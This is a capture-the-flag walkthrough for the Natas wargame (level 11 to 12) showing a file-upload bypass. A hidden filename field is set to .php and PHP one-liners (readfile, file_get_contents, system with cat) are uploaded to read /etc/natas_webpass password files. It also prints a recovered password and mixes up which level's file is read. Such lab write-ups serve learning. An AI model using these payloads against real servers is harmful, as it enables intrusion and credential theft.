 # 🔐 Natas Level: Natas11--->Natas12



### 📂 Execution Process 

👉

- Create a .php file
- enter this payload and save the file
```
<?php readfile('/etc/natas_webpass/natas13'); ?>
```
- inspect to element tab
- inside the value change it to t.php

<img width="1469" height="872" alt="Screenshot 2025-10-01 at 12 30 03 PM" src="https://github.com/user-attachments/assets/2c54174a-856a-4c01-965e-6042515601c1" />

- then upload t.php
<img width="1467" height="875" alt="Screenshot 2025-10-01 at 12 30 44 PM" src="https://github.com/user-attachments/assets/9080169f-81b0-41fa-9f08-c3c7576a5fbe" />

- click on random url and get the password
<img width="1469" height="872" alt="Screenshot 2025-10-01 at 12 31 11 PM" src="https://github.com/user-attachments/assets/84f3c900-7e2c-401b-84ca-278bb34034de" />

### 📄 Password found:
👉 
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

### NOTES


**Short summary:** Change the hidden `filename` value to `.php`, upload a tiny PHP file that reads `/etc/natas_webpass/natas12`, then open the uploaded URL.

---

## Payload files (put exactly these into files)

**payload.php**

```
<?php echo file_get_contents('/etc/natas_webpass/natas12'); ?>
```

**Alt 1 — system (if file_get_contents blocked)**

```
<?php system('cat /etc/natas_webpass/natas12'); ?>
```

**Alt 2 — readfile (another PHP read)**

```
<?php readfile('/etc/natas_webpass/natas12'); ?>
```
